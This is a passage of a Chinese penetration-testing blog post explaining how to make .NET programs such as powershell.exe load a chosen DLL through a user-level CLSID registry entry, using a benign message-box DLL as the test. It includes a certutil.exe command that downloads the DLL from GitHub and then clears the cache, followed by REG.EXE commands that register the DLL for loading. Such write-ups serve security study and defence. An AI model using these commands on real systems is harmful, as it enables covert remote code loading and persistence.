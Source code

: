 可设置为任意数值，只要不和系统常用CLSID冲突就好

### 2、测试dll

使用弹框dll，下载地址：

https://raw.githubusercontent.com/3gstudent/test/master/msg.dll

dll开发过程可参考：

https://3gstudent.github.io/3gstudent.github.io/Use-Office-to-maintain-persistence/

可在cmd下实现直接下载，代码如下：

```
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll
certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll delete
```

操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-28/2-1.png)

**注：**

delete是为了清除下载文件的缓存

更多关于使用certutil.exe下载文件的利用细节可参考文章：

[《渗透测试中的certutil.exe》](https://3gstudent.github.io/3gstudent.github.io/%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E4%B8%AD%E7%9A%84certutil.exe/)

### 3、操作注册表

注册表路径：`HKEY_CURRENT_USER\Software\Classes\CLSID\`

新建子项`{11111111-1111-1111-1111-111111111111}`，同步骤1 cmd输入的CLSID对应
新建子项`InProcServer32`
新建键值`REG_SZ ThreadingModel：Apartment`
默认路径改为msg.dll的路径

修改后的注册表如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-7-28/2-2.png)

对应cmd代码如下：

```
SET KEY=HKEY_CURRENT_USER\Software\Classes\CLSID\{11111111-1111-1111-1111-111111111111}\InProcServer32
REG.EXE ADD %KEY% /VE /T REG_SZ /D "%CD%\msg.dll" /F
REG.EXE ADD %KEY% /V ThreadingModel /T REG_SZ /D Apartment /F
```

### 4、在当前cmd启动.net程序

例如powershell.exe，启动时加载msg.dll，弹框
